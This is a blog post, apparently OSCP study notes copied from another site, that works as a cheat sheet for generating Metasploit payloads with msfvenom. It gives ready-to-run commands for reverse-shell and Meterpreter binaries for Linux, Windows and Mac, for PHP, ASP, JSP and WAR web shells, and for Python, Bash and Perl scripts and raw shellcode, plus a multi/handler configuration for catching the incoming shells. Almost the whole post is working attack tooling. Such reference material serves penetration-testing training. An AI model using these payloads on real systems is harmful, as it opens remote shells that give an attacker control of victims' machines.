 ```yaml
---
layout: post
title:  "Creating Metasploit Payloads"
date:   2018-11-09 10:00:00 +1100
categories: [security,oscp]
permalink: /:title:output_ext
comments: true
---
```

<br>
{% assign colr = "#009900" %}
\-- **Copied from** https://netsec.ws/?p=331<br>
\-- The following commands work on the KaliVM provided by OffSec for the OSCP course. I never updated it and use the latest version for CTF and other research.

<br>**List payloads**

```python
msfvenom -l
```

-----
#### <span style="color:{{ colr }}">Binaries:</span>

**Linux**

```python
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows**

```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac**

```python
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

-----
#### <span style="color:{{ colr }}">Web Payloads:</span>

**PHP**

```python
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP**

```asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP**

```python
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR**

```python
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

-----
#### <span style="color:{{ colr }}">Scripting Payloads:</span>

**Python**

```python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash**

```python
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl**

```python
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

**Shellcode**
<br>
\-- For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

-----
**Linux Based Shellcode**

```python
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode**

```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode**

```python
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

-----
#### <span style="color:{{ colr }}">Handlers:</span>
<br>
\-- Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```python
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

\-- Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
